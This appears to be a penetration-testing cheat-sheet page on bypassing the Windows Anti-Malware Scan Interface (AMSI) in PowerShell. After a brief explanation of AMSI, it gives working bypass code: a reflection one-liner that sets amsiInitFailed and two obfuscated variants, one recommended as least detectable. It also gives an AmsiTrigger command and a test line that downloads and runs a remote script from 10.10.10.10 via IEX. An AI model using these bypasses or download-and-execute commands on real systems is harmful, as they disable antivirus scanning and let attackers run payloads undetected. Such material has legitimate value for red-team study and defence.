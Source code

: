 #### AMSI (Anti Malware Scan Interface)
AMSI is a Powershell feature that scans payloads before execution during runtime.
It's fully integrated with:
-  Powershell
-  VBScript
-  Windows script hosts (wscript, cscript)
-  Office VBA macros
If you are getting errors saying  
```
This script contains malicious content and has been blocked by your antivirus software.
		+ CategoryInfo          : ParserError: (:) []. ParentContainsErrorRecordException
		+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
It's AMSI.

### Automated exploitation
For commands, visit [amsi.fail](http://amsi.fail)
Or use AmsiTrigger:
```
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3      // Finds and bypasses the AMSI triggers
```


One-liner to bypass AMSI using Powershell reflection (can get detected):
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

// Explanation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')   // Gets the AMSI-utilities in Powershell
.GetField('amsiInitFailed','NonPublic,Static')                     // Get a specific field from the AMSI-utils section
.SetValue($null,$true)                                             // Sets "amsiInitFailed" to True, so it will stop being checked
```

Less detectable:
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

Even less detectable (recommended):

```powershell
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Test using:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/test')
```